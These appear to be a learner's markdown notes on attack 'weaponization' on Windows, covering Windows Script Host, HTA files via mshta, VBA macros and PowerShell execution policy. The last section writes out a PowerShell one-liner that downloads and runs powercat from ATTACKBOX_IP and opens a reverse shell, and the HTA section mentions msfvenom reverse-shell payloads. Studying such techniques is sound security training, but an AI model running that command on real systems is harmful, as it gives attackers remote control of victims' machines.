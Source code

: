 # Weaponization
## Windows Scripting Host (WSH)
  - Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
  - it is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe
  - VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user
 ## An HTML Application (HTA)
  - It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer
  - The msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port
## Visual Basic for Application (VBA)
  - A programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications
## PowerShell (PSH)
  - PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses
  - Execution Policy
      - PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.(Set-ExecutionPolicy -Scope CurrentUser RemoteSigned)
  - Bypass Execution Policy
       - powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
       


   




